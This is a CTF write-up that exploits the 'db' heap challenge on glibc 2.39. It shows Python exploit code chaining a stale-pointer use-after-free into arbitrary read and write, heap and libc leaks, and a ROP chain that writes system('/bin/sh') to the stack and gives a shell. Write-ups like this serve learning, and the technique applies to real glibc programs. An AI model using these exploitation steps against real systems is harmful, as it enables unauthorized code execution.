


# db

Again on top of [the binary](./Sources/db) we were given these files to run it :

 - [Dockerfile](./Sources/Dockerfile)
 - [docker-compose.yml](./Sources/docker-compose.yml)
 - [docker-entrypoint.sh](./Sources/docker-entrypoint.sh)

By running the container, we can get this [libc](./Sources/libc.so.6), this [ld](./Sources/ld-linux-x86-64.so.2). After running `pnwinit`, we get [this patched binary](./Sources/db_patched) using them.

Again, pretty much everything is enabled :

```console
$ checksec --file=./db
[*] '/home/geoffrey/Documents/Notes/CTF/Hack_in/pwn-db/db'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

Let's see what changed :


This time we can also edit and delete our notes.

By checking the code in Ghidra, we can also see that this time it's going to be a heap challenge :

```C
void add_entry(void)
{
  ulong index;
  void *ptr;
  undefined8 size;
  long data_ptr;
  
  index = getn("idx: ");
  if (index < 0x11) {
     if (*(long *)(entries + index * 8) == 0) {
        ptr = malloc(0x18);
        *(void **)(entries + index * 8) = ptr;
        **(ulong **)(entries + index * 8) = index;
        size = getn("size: ");
        *(undefined8 *)(*(long *)(entries + index * 8) + 8) = size;
        if (*(ulong *)(*(long *)(entries + index * 8) + 8) < 0x201) {
           data_ptr = *(long *)(entries + index * 8);
           ptr = malloc(*(size_t *)(*(long *)(entries + index * 8) + 8));
           *(void **)(data_ptr + 0x10) = ptr;
           if (*(long *)(*(long *)(entries + index * 8) + 0x10) != 0) {
              gets("data: ");
           }
        }
        else {
           error("Invalid Size");
        }
     }
     else {
        error("Data already exists at the specified index!");
     }
  }
  else {
     error("Nope! That many entries aren\'t allowed!");
  }
  return;
}
```

So let's start by checking out the glibc version :

```console
# /lib/x86_64-linux-gnu/libc.so.6
GNU C Library (Ubuntu GLIBC 2.39-0ubuntu8.3) stable release version 2.39.
Copyright (C) 2024 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 13.2.0.
libc ABIs: UNIQUE IFUNC ABSOLUTE
Minimum supported kernel: 3.2.0
For bug reporting instructions, please see:
<https://bugs.launchpad.net/ubuntu/+source/glibc/+bugs>.
```

Glibc 2.39, since we're currently on glibc 2.40 this is quite a recent one.

First let's start by understanding how the notes work. By reading the code of `add_entry()`, we can see that each pointer to the notes are saved in `entries` on the bss. These pointers point to a structure containing 3 elements :

 - their index used to calculate where to save them in `entries`.
 - the size of the data it contains.
 - a pointer to it's data (in another heap's chunk).

We can also check that in gdb:

```console
=== Menu ===
1. Add
2. Edit
3. Remove
4. View
0. Exit
> 1
idx: 1
size: 8
data: AAAAAAAA
=== Menu ===
1. Add
2. Edit
3. Remove
4. View
0. Exit
> 
```



But if you paid attention to `add_entry()` that we saw earlier, you might wonder what happens when a note with an invalid size that doesn't get pass this condition is created :

```C
*(undefined8 *)(*(long *)(entries + index * 8) + 8) = size;
if (*(ulong *)(*(long *)(entries + index * 8) + 8) < 0x201) {
```

Let's try it and find out :

```console
$ ./db_patched 
=== Menu ===
1. Add
2. Edit
3. Remove
4. View
0. Exit
> 1
idx: 1
size: 1000
[ERROR]: Invalid Size
=== Menu ===
1. Add
2. Edit
3. Remove
4. View
0. Exit
> 2
idx: 1
data: AAAAAAAA
Segmentation fault (core dumped)
```

Well, the note is created even tho the chunk supposed to contain the data isn't. If we check the code of `edit_entry()` :

```C
void edit_entry(void)
{
  ulong index;
  
  index = getn("idx: ");
  if ((*(long *)(entries + index * 8) == 0) || (0x10 < index)) {
     error("entry doesn\'t exist at the specified index.");
  }
  else {
     if (index != **(ulong **)(entries + index * 8)) {
        error("corrupted index.");
        exit(1);
     }
     gets("data: ");
  }
  return;
}
```

No verifications, it just gets the pointer from the note at the given index, and tries to write over it. But since it wasn't initialized as we said earlier, it tries to write on a null pointer which results in a  segmentation fault :


So that's fun and all, but what the fuck does it get us ?


Since `add_entry()` isn't writing a null pointer over it (it's not writing anything at all over it), maybe if there was a valid pointer before hand we could write over it ? If we first create a note, delete it, and then recreate a new one it might have kept the pointer ? Let's check what happens in `remove_entry()` (the function used to delete notes) :

```C
free(*(void **)(*(long *)(entries + index * 8) + 0x10));
free(*(void **)(entries + index * 8));
*(undefined8 *)(entries + index * 8) = 0;
```

The program is only freeing the chunks, and writing a null pointer over the value in entries. It's not doing anything to the actual content of the note on the heap. Let's try and exploit it :

```console
=== Menu ===
1. Add
2. Edit
3. Remove
4. View
0. Exit
> 1
idx: 1
size: 8
data: AAAAAAAA
=== Menu ===
1. Add
2. Edit
3. Remove
4. View
0. Exit
> 3
idx: 1
=== Menu ===
1. Add
2. Edit
3. Remove
4. View
0. Exit
> 1
idx: 1
size: 1000
[ERROR]: Invalid Size
=== Menu ===
1. Add
2. Edit
3. Remove
4. View
0. Exit
> 2
idx: 1
data: 
```


As we can see above, it kept the pointer of the first note and we're now writing 1000 bytes over it. This gets us both a use after free and some sort of an overflow.

Using that we can write a script to create 2 notes, delete the first, and create a new one with the size error. This will get us the overflow we'll use to overwrite the second note (yes I should have exploited it as a use after free instead like a normal human being, it would have been much simpler BUT IT WAS 3 IN THE MORNING I WASN'T THINKING STRAIGHT) :

```python
add_entry(b"1", b"8", b"A"*8)
add_entry(b"2", b"8", b"B"*8)
remove(b"1")
add_entry_error(b"1", b"10000")
```

`add_entry`, `remove`, `add_entry_error` and `view` being the functions I wrote to manipulate the program. If you want to check them out, you can see them in [this final script](./solve.py).

Once we've set up the two previous notes, if we write 56 bytes over the first note's data we write over the second note's data pointer as you can see here :


(The first note is at `0x55c9871e02a0`, the second at `0x55c9871e02e0`)

First, we can use this to get a heap leak by filling up the space bewteen the two notes, and then viewing the first note :

```python
add_entry(b"1", b"8", b"A"*8)
add_entry(b"2", b"8", b"B"*8)
remove(b"1")
add_entry_error(b"1", b"10000")

edit_entry(b"1", b"C"*49)
```

```console
=== Menu ===
1. Add
2. Edit
3. Remove
4. View
0. Exit
> 4
idx: 1
data: CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC\xa3a\xe8)V
=== Menu ===
1. Add
2. Edit
3. Remove
4. View
0. Exit
> 
```

As you can see at the end of the first note's data : a pointer to the heap !

And now by overwriting the second note's pointer and viewing it's data we get an arbitrary read. By editing it's data we get an arbitrary write :

```python
# Overwriting second chunk's pointer
def overwrite_ptr(address:bytes):
    # Writing a clean heap not to sigsegv
    payload = b"".join([
        b"C"*16,
        p64(0),
        p64(0x21),
        p64(0x2),
        p64(0xffff), # Size set to 0xfff to write more bytes
        address,
    ])
    edit_entry(b"1", payload)

def read(address:bytes):
    overwrite_ptr(address)
    leak = view(b"2")
    return leak

def write(address:bytes, value:bytes):
    overwrite_ptr(address)
    edit_entry(b"2", value)
```

But there's still a major issue. We have our two primitives, we have a heap leak, but both pie and aslr are activated... Since there is currently only pointers to the heap on the heap, well we only have an arbitrary read and write on the heap.


But don't worry, we only need to create a chunk with some metadata containing a pointer to the libc. Essentially right now our chunks are going to the Tcachebins :


Which metadata only contains pointer to the heap, but if we were to get a chunk in the unsorted bin, he'd have a pointer to the main arena : a pointer to the libc. To do so, we just need to fill up the Tcachebins for chunks of a size over 0x90. The Tcachebins can only contain 7 chunks, so we can get a chunk in the unsorted bin like that :

```python
def unsorted_bin():
    for i in range(9):
        add_entry(str(i+3).encode(), b"121", b"Z"*121)
    for i in range(9):
        remove(str(i+3).encode())
```



We have a pointer to the libc !


But it's 8 minutes before the end of the CTF and it's gibc 2.39...


What I didn't say, is that I forgot I had to use chunks of a size over 0x90 bytes to get one in the unsorted bin and waisted almost an hour trying to do other challs instead. But I mean it was 4 in the morning... (mostly skill issue and blindness)

Anyway, I liked the chall, and haven't had the occasion to get an rce on such a recent libc yet so I thought I'd still finish and write about it. 

Quite recently I came across [this article](https://github.com/nobodyisnobody/docs/blob/main/code.execution.on.last.libc/README.md) (thanks KingJoestar) made by nobodynobody that shows us in detail how to RCE on libc 2.38. Obviously some of these techniques probably still work. And the simplest one seemed to be last one : leaking `environ` to get the stack, debugging to find out the offset between `environ` and a pointer used to `return`, overwriting it with a ropchain calling `system("/bin/sh")` (that could have been done in less than 8 minutes if I'd known about it which I could have if i actually read the whole article the first time around instead of being lazy but anyway I'm absolutly not salty at all don't you worry about me). That gives us :

```python
leak = read(p64(libc.sym["environ"]))
environ = int.from_bytes(leak, "little")

system = p64(libc.sym["system"])
sh = p64(next(libc.search(b"/bin/sh")))
pop_rdi = p64(0x000000000010f75b + libc.address) # pop rdi ; ret
ret = p64(0x000000000002882f + libc.address) # ret

payload = b"".join([
    pop_rdi,
    sh,
    ret,
    system,
])
write(p64(environ-352), payload)
p.interactive()
```

And we get a shell :

```console
$ docker build . -t pwn-db

$ docker compose up
```

```console
$ ./solve.py -r 127.0.0.1 31337
$ whoami
ctf
```
